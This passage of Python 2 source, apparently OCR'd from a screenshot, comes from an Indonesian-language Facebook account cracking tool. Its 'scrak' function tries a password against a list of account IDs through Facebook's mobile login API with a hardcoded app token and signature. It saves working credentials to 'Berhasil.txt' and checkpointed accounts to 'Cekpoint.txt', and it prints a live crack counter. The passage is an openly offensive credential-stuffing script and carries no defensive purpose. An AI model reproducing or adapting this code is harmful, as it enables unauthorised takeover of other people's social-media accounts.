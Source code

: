             for zedd in threads:
                zedd.join()

        except IOError:
            print '\x1b[1;91m[!] File tidak ditemukan'
            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
            menu_hack()


def scrak():
    global back
    global berhasil
    global cekpoint
    global gagal
    global up
    try:
        buka = open(idlist, 'r')
        up = buka.read().split()
        while file:
            username = file.readline().strip()
            url = 'https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + username + '&locale=en_US&password=' + passw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6'
            data = urllib.urlopen(url)
            mpsh = json.load(data)
            if back == len(up):
                break
            if 'access_token' in mpsh:
                bisa = open('Berhasil.txt', 'w')
                bisa.write(username + ' | ' + passw + '\n')
                bisa.close()
                berhasil.append('\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + username + ' | ' + passw)
                back += 1
            else:
                if 'www.facebook.com' in mpsh['error_msg']:
                    cek = open('Cekpoint.txt', 'w')
                    cek.write(username + ' | ' + passw + '\n')
                    cek.close()
                    cekpoint.append('\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + username + ' | ' + passw)
                    back += 1
                else:
                    gagal.append(username)
                    back += 1
            sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack    \x1b[1;91m:\x1b[1;97m ' + str(back) + ' \x1b[1;96m>\x1b[1;97m ' + str(len(up)) + ' =>\x1b[1;92mLive\x1b[1;91m:\x1b[1;96m' + str(len(berhasil)) + ' \x1b[1;97m=>\x1b[1;93mCheck\x1b[1;91m:\x1b[1;96m' + str(len(cekpoint)))
            sys.stdout.flush()

    except IOError:
        print '\n\x1b[1;91m[!] Koneksi terganggu'
        time.sleep(1)
    except requests.exceptions.ConnectionError:
        print '\x1b[1;91m[\xe2\x9c\x96] Tidak ada koneksi'
